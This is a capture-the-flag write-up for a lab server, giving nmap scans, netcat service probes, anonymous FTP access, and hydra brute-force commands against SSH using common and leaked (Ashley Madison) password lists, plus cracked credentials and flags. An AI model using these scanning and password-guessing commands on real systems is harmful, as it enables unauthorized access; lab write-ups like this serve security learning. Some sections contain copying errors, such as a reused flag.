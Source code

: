 # Services

## Tools

* Filezilla => ftp connect
* Hydra, madusa => (brutfocing)
* netcat => connect to service
* nmap => Scan port and services


## Websites

* cirt.net
* Exploit database

# The tasks

## Service 2

----------------------------------------------------------

**The Flag**: Hacking-Arena{D0nt_l4t_m4_c0nn4ct_n4xt_t1m4}

**The Task**: Find the service on kenobi.hackingarena.com in the port range: 7500-8000 Look for the flag

**Solution**:

1. I scanned the ports with nmap 

        sudo nmap -sS kenobi.hackingarena.com -p 7500-8000

2. And then i connected to the service with netcat to show what service is it.

        nc kenobi.hackingarena.com 7776

3. Then i used *filezilla* app to download the flag file with anonymous .

**Pictures**:

[![Image from Gyazo](https://i.gyazo.com/fabf247c0913384e055d4b2adc8ea078.png)](https://gyazo.com/fabf247c0913384e055d4b2adc8ea078)

[![Image from Gyazo](https://i.gyazo.com/38a7fbd67e6f910a5c86b4cad135e587.png)](https://gyazo.com/38a7fbd67e6f910a5c86b4cad135e587)

[![Image from Gyazo](https://i.gyazo.com/1e452107fd9bd5ed95bb981862cb3fce.png)](https://gyazo.com/1e452107fd9bd5ed95bb981862cb3fce)

[![Image from Gyazo](https://i.gyazo.com/77ab287a0993c6749fccc2b4bd590b37.png)](https://gyazo.com/77ab287a0993c6749fccc2b4bd590b37)




<br>


## Service 1

----------------------------------------------------------

**The Flag**: Hacking-Arena{B4_careful_w1th_passw0rds}

**The Task**: What is this service on kenobi.hackingarena.com in the range 8000-8500? My username is laszlo, I like typical passwords :)

**Solution**:

1. I scanned the ports with nmap 

        sudo nmap -sS kenobi.hackingarena.com -p 8000-8500

2. And then i connected to the service with netcat to show what service is it (ssh).

        nc kenobi.hackingarena.com 8085

3. Then i used hydra to brutforce the ssh server.

        hydra -l laszlo -P /usr/share/john/password.lst kenobi.hackingarena.com ssh -s 8085

4. lastly i connected to ssh to get the flag with username laszlo and password dragon that we found with hydra.

        ssh laszlo@158.39.48.133 -p 8085 

**Pictures**:

[![Image from Gyazo](https://i.gyazo.com/b6845fd0ab956f88679a9c13eb10941e.png)](https://gyazo.com/b6845fd0ab956f88679a9c13eb10941e)

[![Image from Gyazo](https://i.gyazo.com/cfd2f92b9bc6aec30e1297e23c76c360.png)](https://gyazo.com/cfd2f92b9bc6aec30e1297e23c76c360)

[![Image from Gyazo](https://i.gyazo.com/938be5a646e3ae1f4a73818a4c368228.png)](https://gyazo.com/938be5a646e3ae1f4a73818a4c368228)

[![Image from Gyazo](https://i.gyazo.com/467b5b886a84a0a69ff956bbe948bfca.png)](https://gyazo.com/467b5b886a84a0a69ff956bbe948bfca)



## Casanova

----------------------------------------------------------

**The Flag**: Hacking-Arena{Th1s_1s_n0t_Casan0va}

**The Task**: Hi guys, I need your help. I've got an email to pay 0.5 bitcoin. If not, they release all my private files stored on my secure server here: http://kenobi.hackingarena.com:9393 My username is casanova. Ok, ok, I'm using the same password everywhere for like 5 years now and probably the password is not so strong. But I've never had any incident before (except for this embarrassing Ashley Madison case, but fortunately nobody could identify me). Could you please help me out?



**Solution**:

1. And then i connected to the service with netcat to show what service is it (ssh).

        nc kenobi.hackingarena.com 9393

2. And then i connected to the service with netcat to show what service is it (ssh).

        nc kenobi.hackingarena.com 8085

3. Then i downloaded Ashley password list.

4. Then i used hydra to brutforce the ssh server with ashley list.

        hydra -l casanova -P Ashley-Madison.txt kenobi.hackingarena.com ssh -s 9393

4. lastly i connected to ssh to get the flag with username casanova and password kazuga that we found with hydra.

        ssh casanova@158.39.48.133 -p 9393 

**Pictures**:

[![Image from Gyazo](https://i.gyazo.com/08e7774b5977570cfab1365c79fb3047.png)](https://gyazo.com/08e7774b5977570cfab1365c79fb3047)

[![Image from Gyazo](https://i.gyazo.com/b40cf7a6f8b2782a3d68f914b0a7ddff.png)](https://gyazo.com/b40cf7a6f8b2782a3d68f914b0a7ddff)



## Aloha

----------------------------------------------------------

**The Flag**: Hacking-Arena{Th1s_1s_n0t_Casan0va}

**The Task**: Aloha! There's a service on kenobi.hackingarena.com in the port range 8500-9000. I hope you cannot log in :)


**Solution**:

1. I scanned the ports with nmap 

        sudo nmap -sS kenobi.hackingarena.com -p 8500-9000

2. then i googled hawaii emergency password.
3. then i logged in with password Warningpoint2.

        nc kenobi.hackingarena.com 9393


**Pictures**:

